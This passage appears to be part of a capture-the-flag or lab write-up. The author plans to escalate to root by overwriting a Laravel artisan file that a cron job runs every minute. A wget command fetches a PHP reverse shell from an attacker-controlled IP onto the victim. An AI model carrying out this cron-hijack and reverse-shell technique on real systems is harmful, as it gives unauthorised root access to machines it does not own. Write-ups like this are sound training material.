 ![](./IMG/36.png)

- And according to the cronjob, I think the artisan will be execute every minute.

![](./IMG/37.png)

- So, I want to create another reverse shell to replace the artisan file.
- Then the cron will make the php file be executed automatically, and it will use root permission to execute it.
- Upload reverse shell to victim 
```
wget http://10.10.17.145:9797/php-reverse-shell/php-reverse-shell.php
```
